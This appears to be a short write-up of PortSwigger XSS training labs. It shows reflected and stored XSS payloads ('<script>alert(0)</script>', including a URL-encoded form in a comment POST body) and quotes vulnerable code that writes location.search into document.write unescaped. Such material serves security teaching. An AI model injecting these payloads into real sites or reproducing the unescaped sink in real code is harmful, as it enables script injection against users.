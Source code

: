 ```yaml
---
description: https://portswigger.net/web-security/cross-site-scripting
---
```


# Cross-site scripting

### Lab: Reflected XSS into HTML context with nothing encoded

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

```
/?search=test
<h1>1 search results for 'test'</h1>

<script>alert(0)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

`csrf=dEw6a3DaskdxmTVrwvlONQj1sGecwy30&postId=6&comment=`**`%3Cscript%3Ealert%280%29%3C%2Fscript%3E`**`+This+is+a+comment.&name=test&email=test%40test.com&website=https%3A%2F%2Fwww.test.com`

```
<script>alert(0)</script>
```

### Lab: DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

```
<script>
	function trackSearch(query) {
		document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
		trackSearch(query);
	}
</script>
```

**Search -> 123456789**
